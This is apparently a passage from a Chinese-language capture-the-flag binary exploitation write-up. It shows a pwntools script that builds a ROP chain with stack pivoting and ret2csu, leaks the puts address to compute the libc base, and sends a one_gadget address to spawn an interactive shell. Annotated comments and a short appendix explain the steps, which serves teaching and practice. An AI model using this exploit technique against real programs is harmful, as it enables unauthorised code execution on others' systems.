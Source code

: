 ```python
payload2='a'*0x40+p64(0)+p64(pop_rdi_addr)+p64(puts_got_addr)+p64(puts_plt_addr)
payload2+=p64(ret_csu_addr)+p64(0)+p64(0)+p64(read_plt_addr)+p64(0x100)
payload2+=p64(rsi_addr)+p64(0)+p64(0x4006E0)#why is there an address here
#这一个4006E0仅仅是ret2csu执行了pop之后的ret的返回的地址。
#至于怎么返回到one_gadget上的，是因为read的返回地址被read自己给改了
#payload2中的第一个p64(0)是去占个地方，因为栈迁移本身的特性，迁移后的第一个内存单元不执行
p.sendafter('k now!\n',payload2)
puts_addr=u64(p.recv(6).ljust(8,'\x00'))
libc_base=puts_addr-libc.symbols['puts']
one_gadget=libc_base+0x4f432
p.sendline(p64(one_gadget))#why p64 here #只要是发送地址 就要经过打包之后发送
p.interactive()
```







# 6、附录

找leave;ret指令地址，只要在IDA里的代码段随便找到有leave ret出现的地方，取leave的地址即可


 <img src="/upload/img/image-20220411123751078.png" alt="image-20220411123751078" style="zoom: 33%;" />
